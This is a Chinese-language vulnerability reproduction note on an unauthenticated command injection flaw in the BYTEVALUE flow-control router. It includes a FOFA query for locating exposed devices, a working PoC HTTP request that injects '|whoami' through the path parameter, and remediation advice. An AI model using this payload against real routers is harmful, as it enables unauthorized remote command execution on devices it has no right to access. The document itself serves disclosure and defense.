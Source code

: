 
# 百为智能流控路由器 RCE 漏洞复现

### 0x01 产品简介

 BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。

### 0x02 漏洞概述

百为智能流控路由器 /goform/webRead/open 路由的 ?path 参数存在有回显的命令注入漏洞，未经身份认证的攻击者可以利用此漏洞执行任意指令，获取服务器权限。

### 0x03 复现环境

FOFA：app="BYTEVALUE-智能流控路由器"

![](assets/1701678113-61d12998218e2a22e28d68b2242ac63a.png)

### 0x04 漏洞复现 

PoC

```http
GET /goform/webRead/open/?path=|whoami HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

![](assets/1701678113-c083227c4df6f7d30c6d3388e64664ce.png)

### 0x05 修复建议

目前官方已提供解决方案，请关注厂商主页更新：http://www.bytevalue.com/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
